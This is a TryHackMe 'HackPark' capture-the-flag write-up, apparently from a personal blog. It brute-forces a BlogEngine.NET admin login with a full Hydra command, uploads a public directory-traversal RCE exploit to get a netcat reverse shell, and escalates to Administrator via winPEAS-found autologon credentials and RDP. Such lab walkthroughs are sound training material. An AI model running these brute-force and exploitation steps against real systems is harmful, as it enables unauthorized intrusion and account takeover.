 ```yaml
---
title:  "HackPark Writeup - TryHackMe"
date:   2020-07-31 20:00:00 -0400
categories: [THM]
toc: true
comments: false
tags: [bruteforcing, privesc, oscp, hydra, winpeas]
---
```


This time we will be solving the [HackPark](https://tryhackme.com/room/hackpark) room from [TryHackMe](https://tryhackme.com/). This box is part of the Offensive pentesting learning path so it will be very useful for our OSCP journey.

## Room info

![Machine Info](/images/THM/HackPark/01-machine-info.png "Machine Info")

## Enumeration

For some reason, nmap is not giving any information about the open ports for this machine, but I'll anticipate that we have ports **80** and **3389** open.

First of all, taking a look of the website ```http://10.10.203.246``` we can see the following landing page:

![Landing Page](/images/THM/HackPark/00-landing-page.png "Landing Page")

Doing a reverse image search on the clown picture, we can tell that is **Pennywise** from IT movie.

Moving on, the next interesting section of the website is the **Log In** panel on the right menu.

![Right Menu](/images/THM/HackPark/02-login.png "Right Menu")

So, we click on **Log In** and get to a login page. In the landing page we see **Blogengine.net** and a typical login form for username and password inputs.

URL: ```http://10.10.203.246/Account/login.aspx```

![Login](/images/THM/HackPark/03-blog-login.png "Login")

As we know, the room description says we'll be using Hydra for bruteforcing. So, before that is important to know what is the default user for **Blogengine**.

After a quick Google research we got **admin** as the default user and from now on just need to obtain the password through brute-forcing with Hydra.

## Gaining access

After having decided to use Hydra, we must know what information to provide to make it work. For brute-forcing a web form the syntax is as follow:

> hydra -l [User] -P [Pass] [Target IP] [Request Method] "[Login form Path]:[Request body]:[Failure message]"

- The user field is ```admin```.
- For the **Pass** field we will be using ```rockyou.txt``` wordlist.
- The target IP is ```10.10.203.246```.
- The login form path will be ```/Account/login.aspx```.

For the rest, we will have to do a little research on the login page. Using the Developer tools from our browser we can see how the login form sends the request.

The network tab will show us the request method whenever we make a submit on the login form. So, let's go ahead and make a request with the following parameters:

- Username: ```usertest```.
- Password: ```passtest```.

![Method](/images/THM/HackPark/03-form-method.png "Method"){: .align-center}

Now we know the form is using **POST** method to make the request, and using the **Edit and Resend** button in the bottom right corner we can see the raw body request. Finally, we also get the message whenever a wrong user/pass is entered: ```Login failed```. 

![Request](/images/THM/HackPark/03-request.png "Request"){: .align-center}

**Request Body**
```bash
__VIEWSTATE=49GAAjlZ%2B4B1%2Bz38DrOFSr7m8aWbh0CXLp8Xr2aPBM2liP4BPRanZv%2Bsnfh62wyJQLsPPiHvYs6oZ5ngezwSDWtN9kSbkJYkqhj%2Fdcvfk0iQv7ShrL9zDiVLHkHAzvF7bEV0%2FgUB5BfJVrw0MFhYcvzn9a0rlmhy8J%2BMjjD53W4mULD4&__EVENTVALIDATION=sXh8q7nd3FnQbnON%2BvVUJwD7BbO7R8oPcmNeBZMWODV4Exie1bp00VsrrcY70IHcnw%2B3oo%2Bgu%2FXsUt2HuFYShgSXZf1qf%2FOosRaywgIUr7HIriKizOiGdSotndccZxhlmHYKGSu9iGAuAQsT5%2BZoAu3zLyGex42pPknzmCQw5%2FRCe%2BUN&ctl00%24MainContent%24LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

For hydra to work, we need to specify a couple of placeholders for the USER and PASS parameters in the request. If we take a closer look to the raw request, we can see the user and pass entered earlier: 

```plaintext
LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest
```

So in this case, we replace **usertest** for ```^USER^``` and **passtest** for ```^PASS^```.

```plaintext
LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^
```

**Full command**

After getting all the information, the full command looks like this:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.203.246 http-post-form "/Account/login.aspx:__VIEWSTATE=DuOBP%2BgZJeq6AMydj5niN1uZM%2FDPpZMaxfWo5oEC4brEJy1oBLy29HUrOfHMJVOGXkG1660e6jVooc9Yq08XSwXuS6%2BEAz0wmCd9zrPJ%2FvRTEfvW4%2FydsHFgcUy%2BaIkSagapG4M4u0EK%2FxLTi5gChTWoajmuqFTxAa8qQQJOi7n9k0Fmpfq1MZzahKDFn5OJvCfq6JW%2FQVV4w%2FwQsnL03wpViAbcqU5CAVBTo9igmfmnTanl64dDgoz8ZkXx0sfLD8O136c%2BVm6kcfY3olmQUP34NqflsNH9hVBYr4piqoMqK%2BQjG2SI4cgyyRbcUjLnOryib9veu%2BsGI147wYnLVmnQT1HR0uePIIBJ%2BA3UQJZngtnK&__EVENTVALIDATION=yxXvvmOhIbyz01WxElUbLdtpbMGxCzl5Rt2yC8ppVo8aEkoGj61ik751%2FMdx5Ea6wPF4FA5bjdCtJ%2BJ2terqrBoDEHH8mETsjtorsuBx5xG0AxeHmiNLCZGHt0BDXhVuDeihrfZuN6Wb89YIQvzsLZT4aFAD2DEeuiF3stBpJy%2Bco6jP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 60 -V
```
So we launch hydra and in a couple of minutes we get the password for the user admin.

![Hydra bruteforcing](/images/THM/HackPark/02-hydra-BF-blur.png "Hydra bruteforcing"){: .align-center}

Logging in, the first thing to do is find the CMS version, for this we navigate to the About tab on the sidebar menu.

![Blog version](/images/THM/HackPark/03-blog-version.png "Blog version")

With this information, now we proceed to take a look on exploitdb if there is already an exploit or CVE for this CMS. 

![Searchsploit](/images/THM/HackPark/04-searchsploit.png "Searchsploit")


There is indeed an exploit available for our CMS version. Lets take a look to the one named [BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution](https://www.exploit-db.com/exploits/46353) and read it carefully.

It is a exploit written in C# which will allow us to get a reverse shell exploiting a vulnerable code in the ```PostList.ascx.cs``` file. To abuse this vulnerability, we have to do the following:

- Edit the exploit with our local IP address and Port for the reverse shell.

![Exploit](/images/THM/HackPark/04-modify-exploit.png "Exploit")

- Set a listener with the same parameters.

```bash
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
```

- Rename the exploit as: ```PostView.ascx```.
- In the CMS, navigate to ***Content > Posts > New*** and add a new post uploading our ```PostView.ascx``` file. Click on the open folder icon.

![Exploit Upload 1](/images/THM/HackPark/06-upload-01.png "Exploit Upload 1")
- Upload the exploit using the file manager and add it to the new post.

![Exploit Upload 2](/images/THM/HackPark/06-upload-02.png "Exploit Upload 2")

- Set a title and save it.

![Exploit Upload 3](/images/THM/HackPark/06-upload-03.png "Exploit Upload 3")

- Open the URL: ```http://10.10.203.246/?theme=../../App_Data/files```.

Finally we get the reverse shell.  

```bash
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.203.246] 49428
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

## Privilege Escalation

For privesc we are going to use [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) which is awesome for a quick system scan. We need to make sure to download the correct version of the binary as we are in a x64 machine.

```batch
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-10000-00000-AA228
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          7/31/2020, 9:45:02 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
```
With the tool already in the machine, we proceed to run it by simply doing ```winPEAS.exe``` from the console. Then we will take a moment to analyze the output. 

Scrolling through, we reach the following section that looks interesting:

![Autologon Credentials](/images/THM/HackPark/06-credentials-blur.png "Autologon Credentials")

**winPEAS** just found us some autologon credentials from the **Administrator** user, so the next step will be checking this using RDP.

```bash
xfreerdp /u:Administrator /p:4q6Xv******** /v:10.10.203.246
```

![Administrator access](/images/THM/HackPark/07-admin-access.png "Administrator access")

That's it! Now we have Administrator privileges and access to the root flag in the desktop.
